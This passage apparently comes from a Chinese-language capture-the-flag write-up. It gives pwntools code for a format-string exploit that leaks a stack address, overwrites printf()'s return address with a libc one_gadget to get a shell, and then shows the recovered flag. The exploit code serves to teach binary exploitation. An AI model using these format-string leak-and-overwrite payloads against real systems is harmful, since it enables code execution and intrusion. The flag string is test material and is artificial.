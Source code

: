 编写如下 payload 获取 `printf()` 的返回地址：

```py
# Second payload : leaking stack address
payload2 = b'%77$016l' + b'lxKKKKKK'
conn.sendline(payload2)
recv2 = conn.recvuntil(b'KKKKKK')
recv2 = recv2.strip(b'KKKKKK')
arg_103_addr = int(recv2, 16)
printf_ret_addr = arg_103_addr - 0x330
log.success("arg_103_addr    => 0x{:016X}".format(arg_103_addr))
log.success("printf_ret_addr => 0x{:016X}".format(printf_ret_addr))
conn.interactive()
```

运行效果如下：

![image-20240729170544644.png](https://s2.loli.net/2024/07/29/pEO7SYrc8qwVimn.png)

获得 `printf()` 栈基址为 `0x00007FFF27F65378`

### Hijacking printf() return addr & getting system shell 

编写如下 payload 以执行 system call shell 并获取flag:

```python
# Third payload: getting system shell

one_gadget = 0xebc85 + libc_addr
payload3 = fmtstr_payload(6,{printf_ret_addr:one_gadget})
conn.sendline(payload3)
conn.interactive()
```

最终运行结果如下：

![image-20240729170928581.png](https://s2.loli.net/2024/07/29/Mv6dyTt4zFNbJ5a.png)

获得 flag 为 `AAA{3sc@pe_f3Om_wh1l3_1_i5_E4sy}`
